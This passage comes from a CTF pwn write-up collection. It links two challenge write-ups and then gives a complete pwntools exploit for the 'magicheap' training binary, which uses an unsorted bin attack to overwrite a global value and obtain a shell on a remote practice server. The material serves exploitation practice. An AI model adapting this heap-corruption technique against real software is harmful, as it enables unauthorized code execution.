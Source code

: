 ```python  
exp()
```  
## 0x17  0ctf2017-babyheap  
https://n0vice.top/2020/04/16/0ctf2017-babyheap  
## 0x18  wdb2018_guess  
https://n0vice.top/2020/04/09/Stack-smash  
## 0x19  hitcontraining_magicheap  
满足choice为4869，并且magic的值大于4869，即可getshell  
我们利用unsorted bin attack，将magic的值改掉即可    
```python  
#!/usr/bin/env python
#coding=utf-8
from pwn import*
from LibcSearcher import *
import sys
#context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './magicheap' 
local = 0
if local == 1:
    p=process(binary)
else:
    p=remote("node3.buuoj.cn",25408)
elf=ELF(binary)
libc=elf.libc
magic = 0x6020A0
def add(size,content):
    p.recvuntil("choice :")
    p.sendline("1")
    p.recvuntil("Heap : ")
    p.sendline(str(size))
    p.recvuntil("heap:")
    p.send(content)
def edit(index,size,content):
    p.recvuntil("choice :")
    p.sendline("2")
    p.recvuntil("Index :")
    p.sendline(str(index))
    p.recvuntil("Heap : ")
    p.sendline(str(size))
    p.recvuntil("heap : ")
    p.send(content)
def free(index):
    p.recvuntil("choice :")
    p.sendline("3")
    p.recvuntil("Index :")
    p.sendline(str(index))
def exp():
    add(0x90,"aaa") # 0
    add(0x90,"bbb") # 1
    add(0x10,"ccc")
    free(1)
    payload = "a"*0x90 + p64(0) + p64(0xa1) + p64(0) + p64(magic-16)
    edit(0,0xb0,payload)
    add(0x90,"fuck")
    p.recvuntil(":")
    p.sendline("4869")
    p.interactive()
exp()
```  
